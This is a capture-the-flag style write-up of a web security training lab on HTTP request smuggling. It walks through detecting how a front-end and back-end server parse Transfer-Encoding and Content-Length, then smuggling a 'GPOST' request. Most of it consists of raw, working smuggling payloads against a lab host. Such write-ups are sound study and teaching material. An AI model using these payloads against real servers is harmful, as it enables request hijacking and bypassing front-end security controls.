

# HTTP request smuggling, obfuscating the TE header
# Objective
This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. \
The front-end server rejects requests that aren't using the GET or POST method.\
To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

# Solution
## Analysis
### Determinig what the front-end is using
If front-end uses `Transfer-Encoding` header it should response with error, because `X` is not valid chunk size.
```
POST / HTTP/1.1
Host: 0a1e002003c7b59f8088f378007c00d2.web-security-academy.net
Cookie: session=zsmRbeHTY4pqBetlApmYJgbBsWpbnoWH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
Transfer-Encoding: chunked

4
test
X

```

||
|:--:| 
| *Error - Front-end is using Transfer Encoding header* |
||
| *Read timeout - Deletion of the extra line after X causes different error* |

### Determining what the back-end is using
This request after coming from front-end is striped of the `X` - the value of content length header is not valid (Changing it in the below payload does not change the response).

```
POST / HTTP/1.1
Host: 0a1e002003c7b59f8088f378007c00d2.web-security-academy.net
Cookie: session=zsmRbeHTY4pqBetlApmYJgbBsWpbnoWH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X

```

||
|:--:| 
| *No error - Back-end is using Transfer Encoding header* |

### Obfuscating transfer encoding header
Adding a second `Transfer-Encoding` header with invalid value forced back-end to ignore `Transfer-Encoding` header and evaluate `Content-Length` header instead. In the example below, the request after coming from front-end is striped of the `X` - the value of content length header is not valid. Because of this back-end waited for the mising byte which lead to time-out.

```
POST / HTTP/1.1
Host: 0a1e002003c7b59f8088f378007c00d2.web-security-academy.net
Cookie: session=zsmRbeHTY4pqBetlApmYJgbBsWpbnoWH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
Transfer-Encoding: invalid

0

X

```

||
|:--:| 
| *Time-out - Back-end now is using Content Length header* |

```
POST / HTTP/1.1
Host: 0a1e002003c7b59f8088f378007c00d2.web-security-academy.net
Cookie: session=zsmRbeHTY4pqBetlApmYJgbBsWpbnoWH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: invalid

1
G
0


```

||
|:--:| 
| *Poisoning back-end* |

## Exploitation
```
POST / HTTP/1.1
Host: 0a1e002003c7b59f8088f378007c00d2.web-security-academy.net
Cookie: session=zsmRbeHTY4pqBetlApmYJgbBsWpbnoWH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: invalid

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

x=1
0


```

`Content-Length: 11` - must be bigger (at least by one) then the actual size of the smuggled request payload. This ensures that it will be trigered (one byte of the normal request will be appened to the smuggled request).

```
x=1\r\n         +5
0\r\n           +3
\r\n            +2
```

||
|:--:| 
| *Request was smuggled* |
||
| *Content Length inside smuggled reqest must be bigger than the payload* |
